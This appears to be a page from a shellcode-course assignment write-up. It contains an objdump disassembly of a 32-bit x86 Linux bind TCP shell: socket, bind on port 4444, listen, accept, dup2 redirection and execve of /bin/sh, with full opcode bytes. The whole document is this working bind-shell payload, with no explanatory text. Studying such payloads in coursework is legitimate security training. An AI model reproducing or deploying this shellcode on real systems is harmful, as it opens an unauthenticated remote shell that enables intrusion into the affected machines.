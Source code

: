 {% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment1$ objdump -d ./bind_tcp_shell -M intel

./bind_tcp_shell:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       31 c0                   xor    eax,eax
 8049002:       31 db                   xor    ebx,ebx
 8049004:       31 c9                   xor    ecx,ecx
 8049006:       31 d2                   xor    edx,edx
 8049008:       31 f6                   xor    esi,esi
 804900a:       31 ff                   xor    edi,edi
 804900c:       66 b8 67 01             mov    ax,0x167
 8049010:       b3 02                   mov    bl,0x2
 8049012:       b1 01                   mov    cl,0x1
 8049014:       cd 80                   int    0x80
 8049016:       31 db                   xor    ebx,ebx
 8049018:       89 c3                   mov    ebx,eax
 804901a:       66 b8 69 01             mov    ax,0x169
 804901e:       56                      push   esi
 804901f:       66 68 11 5c             pushw  0x5c11
 8049023:       66 6a 02                pushw  0x2
 8049026:       89 e1                   mov    ecx,esp
 8049028:       b2 10                   mov    dl,0x10
 804902a:       cd 80                   int    0x80
 804902c:       66 b8 6b 01             mov    ax,0x16b
 8049030:       31 c9                   xor    ecx,ecx
 8049032:       cd 80                   int    0x80
 8049034:       66 b8 6c 01             mov    ax,0x16c
 8049038:       cd 80                   int    0x80
 804903a:       89 c3                   mov    ebx,eax
 804903c:       b1 03                   mov    cl,0x3

0804903e <dup2>:
 804903e:       31 c0                   xor    eax,eax
 8049040:       b0 3f                   mov    al,0x3f
 8049042:       cd 80                   int    0x80
 8049044:       49                      dec    ecx
 8049045:       79 f7                   jns    804903e <dup2>
 8049047:       31 c0                   xor    eax,eax
 8049049:       50                      push   eax
 804904a:       68 2f 2f 73 68          push   0x68732f2f
 804904f:       68 2f 62 69 6e          push   0x6e69622f
 8049054:       89 e3                   mov    ebx,esp
 8049056:       50                      push   eax
 8049057:       89 e2                   mov    edx,esp
 8049059:       53                      push   ebx
 804905a:       89 e1                   mov    ecx,esp
 804905c:       b0 0b                   mov    al,0xb
 804905e:       cd 80                   int    0x80

{% endhighlight %}
